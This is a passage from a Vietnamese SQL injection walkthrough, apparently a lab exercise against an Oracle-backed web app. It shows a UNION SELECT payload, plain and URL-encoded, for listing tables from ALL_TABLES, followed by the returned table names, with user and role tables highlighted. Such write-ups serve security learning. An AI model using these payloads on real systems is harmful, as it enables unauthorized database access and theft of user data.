 ![A screenshot of a computer AI-generated content may be
incorrect.](image/image4.png){width="6.260416666666667in"
height="3.1770833333333335in"}

Tới đây là đủ biết cả hai cột đều là string

Giờ ta sẽ tạo payload union để ghép thành bảng chứa thông tin cột
TABLE_NAME

\' union select TABLE_NAME,NULL from ALL_TABLES\--

encode

\'+union+select+TABLE_NAME,NULL+from+ALL_TABLES\--

![A screenshot of a computer AI-generated content may be
incorrect.](image/image5.png){width="6.260416666666667in"
height="3.2083333333333335in"}

Cột TABLE_NAME có khá nhiều giá trị nên chụp ảnh không hết, giờ copy hết
giá trị rồi quăng lên đây cho dễ nhìn

**APP_ROLE_MEMBERSHIP**

**APP_USERS_AND_ROLES**

AUDIT_ACTIONS

DR\$NUMBER_SEQUENCE

DR\$OBJECT_ATTRIBUTE

DR\$POLICY_TAB

DR\$THS

DR\$THS_PHRASE

DUAL

HELP

HS\$\_PARALLEL_METADATA

HS_BULKLOAD_VIEW_OBJ

HS_PARTITION_COL_NAME

HS_PARTITION_COL_TYPE

IMPDP_STATS

KU\$NOEXP_TAB

KU\$\_DATAPUMP_MASTER_10_1

KU\$\_DATAPUMP_MASTER_11_1

KU\$\_DATAPUMP_MASTER_11_1_0_7

KU\$\_DATAPUMP_MASTER_11_2
